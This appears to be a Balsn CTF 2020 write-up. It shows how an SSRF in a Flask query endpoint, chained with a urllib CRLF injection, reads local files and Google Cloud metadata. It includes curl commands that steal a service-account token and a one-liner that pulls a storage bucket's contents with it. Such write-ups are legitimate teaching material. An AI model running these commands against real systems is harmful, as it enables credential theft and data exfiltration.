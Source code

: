```yaml
---
layout: post
title: TPC
category: Balsn 2020
---
```




By checking the url givng `http://35.194.175.80:8000/` we found a printed text that mentions the entry point for this challenge

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/99299251-40d08e00-284b-11eb-819a-09db889acbb9.png" alt="main" >

sending `file:///etc/passwd` as a **site** argument gives us the content for  `/etc/passwd`

```
view-source:http://35.194.175.80:8000/query?site=file:///etc/passwd
```

<img src="https://user-images.githubusercontent.com/7364615/99298929-c7d13680-284a-11eb-8d4b-23d495400e72.png" alt="etc_passwd" style="zoom: 67%;" />

So its **SSRF** ( Server-side request forgery ), if we send `file:///proc/self/cmdline` we get the command line which include python file name `main-dc1e2f5f7a4f359bb5ce1317a.py`

```
/usr/local/bin/python/usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app--bind0.0.0.0:8000--workers5--worker-tmp-dir/dev/shm--worker-classgevent--access-logfile---error-logfile-
```

 And finally read the source code http://35.194.175.80:8000/query?site=file:///opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py`

```
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```



Simple code, if we read more on `urllib` we can find it vulnerable to **CRLF** : https://bugs.python.org/issue35906 (CVE-2019-9947)

And if we check `file:///etc/hosts` we find 

```
169.254.169.254 metadata.google.internal metadata
```

So we can read google cloud metadata using **SSRF** chained with **CRLF** 

```
curl -v 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

As output we have 

```
attributes/
cpu-platform
description
disks/
guest-attributes/
hostname
id
image
legacy-endpoint-access/
licenses/
machine-type
maintenance-event
name
network-interfaces/
preempted
remaining-cpu-time
scheduling/
service-accounts/
tags
virtual-clock/
zone
```



We just next get access token , find out that we have access to storage **devstorage.read_only**

```
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2844,
  "access_type": "online"
}
```

Reading **access_token**

```
curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

And to read all `asia.artifacts.balsn-ctf-2020-tpc.appspot.com` bucket data

We have full cmd to just process all this steps :

```
mkdir out && access_token=$(curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20' | jq -r '.access_token') && curl -s 'https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token='$access_token | jq -r '.items[].name' | while read obj;do curl -s -X GET -H 'Authorization: Bearer '$access_token https://storage.googleapis.com/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/{$obj} --output out/output_$(echo $obj | cut -d ':' -f 2)  ;done && cd out && for i in $(ls); do mkdir files;tar -xvf $i -C files/ ;done && grep -r "BALSN" files/opt
```

And we just got the flag in the `/opt/workdir` directory

```
BALSN{What_permissions_does_the_service_account_need}
```
